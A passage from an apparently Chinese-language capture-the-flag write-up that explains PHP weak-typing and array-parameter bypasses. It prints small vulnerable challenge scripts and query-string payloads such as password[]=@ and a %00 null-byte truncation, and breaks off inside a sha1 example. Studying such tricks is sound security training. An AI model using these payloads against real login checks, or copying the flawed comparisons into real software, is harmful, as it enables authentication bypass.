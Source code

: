 ![Image.png](https://i.loli.net/2019/05/02/5ccadc6a0d6fc.png)

![Image.png](https://i.loli.net/2019/05/02/5ccadc6a162a4.png)\

使用数组缺陷绕过
构造payload:?username[]=1&password[]=0e
### 数组返回NULL绕过
源码
```
<?php
$flag = "flag";

if (isset ($_GET['password'])) {
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)
echo 'You password must be alphanumeric';
else if (strpos ($_GET['password'], '--') !== FALSE)
die('Flag: ' . $flag);
else
echo 'Invalid password';
}
?>
```
ereg和eregi差不多的，区别在于是否匹配大小写
if (ereg ("^[a-zA-Z0-9]+$", $_GET['password']) === FALSE)为了判断是否有输入数字、字母

![Image.png](https://i.loli.net/2019/05/02/5ccadcbf79639.png)

1.数组绕过
    payload:?password[]=@
2.截断
    payload:?password[]=%00
### 弱类型整数大小比较绕过
源码
```
<?php
$temp = $_GET['password'];
is_numeric($temp)?die("no numeric"):NULL;
if($temp>1336){
echo $flag;
?>
```
一眼看出矛盾
给传入的password套上了单引号，为字符串
下面又判断是否为数字，是的话要大于1336才输出flag
这里明显就矛盾了。

尝试数组直接绕过处理
payload:password[]=1

### sha()函数比较绕过
```
<?php
$flag = "flag";
if (isset($_GET['name']) and isset($_GET['password']))
{
var_dump($_GET['name']);
echo "";
var_dump($_GET['password']);
var_dump(sha1($_GET['name']));
var_dump(sha1($_GET['password']));
if ($_GET['name'] == $_GET['password'])
echo 'Your password can not be your name!';
else if (sha1($_GET['name']) === sha1($_GET['password']))
```